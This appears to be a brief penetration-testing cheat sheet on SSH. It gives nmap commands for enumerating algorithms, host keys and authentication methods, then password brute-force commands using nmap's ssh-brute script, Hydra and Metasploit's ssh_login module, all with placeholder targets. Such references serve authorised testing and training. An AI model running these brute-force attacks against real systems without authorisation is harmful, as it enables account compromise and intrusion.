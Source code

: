 # SSH

## nmap
Enumerate algorithms
```
nmap [TARGET-IP] -p 22 --script ssh2-enum-algo
```
Get ssh-rsa key
```
nmap [TARGET-IP] -p 22 --script ssh2-hostkey --script-args ssh_hostkey=full
```
Get authentication methods
```
nmap [TARGET-IP] -p 22 --script ssh2-auth-methods --script-args="ssh.user=[USERNAME]"
```
SSH dictionary attack
```
nmap [TARGET-IP] -p 22 --script ssh-brute --script-args userdb=[WORDLIST-PATH]
```

## Hydra
```
hydra -l [USERNAME] -P [WORDLIST-PATH] [TARGET-IP] ssh
```

## Metasploit
```
msfconsole
```
```
use auxiliary/scanner/ssh/ssh_login
```
```
show options
```
Set options
```
exploit
```
